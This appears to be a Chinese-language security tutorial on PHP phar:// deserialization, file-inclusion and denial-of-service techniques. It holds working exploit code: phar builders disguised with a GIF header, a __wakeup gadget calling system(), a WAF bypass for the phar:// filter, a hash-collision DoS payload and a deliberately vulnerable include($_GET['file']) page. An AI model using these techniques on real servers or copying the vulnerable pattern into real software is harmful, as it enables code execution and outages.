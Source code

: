 # Phar的文件包含与反序列化

## 反序列化

**参考**

- https://blog.zsxsoft.com/post/38
- https://paper.seebug.org/680/

**利用条件**

- phar文件要能够上传到服务器端。
- 存在`__destruct`,`__wakeup`魔术方法作为跳板
- 存在相关[函数](https://blog.zsxsoft.com/post/38)函数,并且参数可控，`:`、`/`、`phar`等特殊字符没有被过滤。

**受影响的函数列表**
![](/images/19-1-19_2018总结-PHP篇_利用类进行反序列化Phar1.png)
对于函数影响范围的深入追求参看[zsx](https://blog.zsxsoft.com/post/38)师傅的文章，简单如下：

- exif (exif_thumbnail、exif_imagetype)
- gd (imageloadfont、imagecreatefrom..)
- hash (hash_hmac_file、hash_file、hash_update_file、md5_file、sha1_file)
- file/url (get_meta_tags、get_headers)
- standard (getimagesize、getimagesizefromstring)
- zip
```php
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
```
- Postgres
```php
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
@$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```
- MySQL (要设置local-infile=1、secure_file_priv=""，因为是非默认设置)
```php
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', '123456', 'easyweb', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
```

**phar://绕过**
如果waf过滤了phar://，则可以使用：

```
compress.bzip2://phar://
compress.zlib://
```

### 利用

**构造恶意phar包的php文件：**

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php phpinfo();__HALT_COMPILER();?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

其中`xxx<?php xxx; __HALT_COMPILER();?>`是phar文件的stub，可用理解为一个身份id。其中stub的内容必须以`__HALT_COMPILER();?>`结尾，否则phar扩展将无法识别这个文件为phar文件。具体参考[seebug](https://paper.seebug.org/680/)的文章。

**phar反序列化已构造的恶意php文件**

```php
<?php 
    class TestObject {
    	public function __wakeup() {
            echo 'Destruct wakeup';
        }
        public function __destruct() {
            echo 'Destruct called';
        }
    }

    $filename = 'phar://phar.phar/test.txt';
    file_get_contents($filename); 
?>
```

![](/images/19-7-13_Phar的文件包含与反序列化_反序列化_1.png)

**phar文件可通过添加幻术伪造为其他类型的文件：**

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

![](/images/19-7-23_PHP_Phar的文件包含与反序列化_反序列化_2.png)

## 拒绝服务

**还可以利用来进行拒绝服务攻击(PHP内核哈希表碰撞攻击（CVE-2011-4885）)**

```php
<?php
set_time_limit(0);
$size= pow(2, 16);
$array = array();
for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $maxKey; $key += $size) {
    $array[$key] = 0;
}
$new_obj = new stdClass;
$new_obj->hacker = $array;
$p = new Phar(__DIR__ . '/avatar.phar', 0);
$p['hacker.php'] = '<?php ?>';
$p->setMetadata($new_obj);
$p->setStub('GIF<?php __HALT_COMPILER();?>');
```
**反序列化恶意文件**

```php
<?php
set_time_limit(0);
$startTime = microtime(true);
file_exists("phar://avatar.phar");
$endTime = microtime(true);
echo '执行时间：  '.($endTime - $startTime). ' 秒'; 
```

![](/images/19-7-23_PHP_Phar的文件包含与反序列化_反序列化_3.png)

## 文件包含

**利用范围**

- PHP 5 >= 5.3.0、 PECL phar >= 1.0.0
- PHP 7、 PECL phar >= 1.0.0

**参考：**

- https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/

**测试代码**

index.php

```php
<?php
include($_GET['file']);
?>
```
shell.txt
```php
<?php phpinfo() ?>
```
把sehll.txt压缩成test.zip文件

可用以下姿势进行包含
```
index.php?file=phar://D:/phpStudy/WWW/fileinclude/test.zip/shell.txt   //绝对路径
index.php?file=phar://test.zip/shell.txt   //相对路径
```

![](/images/19-7-23_PHP_Phar的文件包含与反序列化_文件包含_1.png)

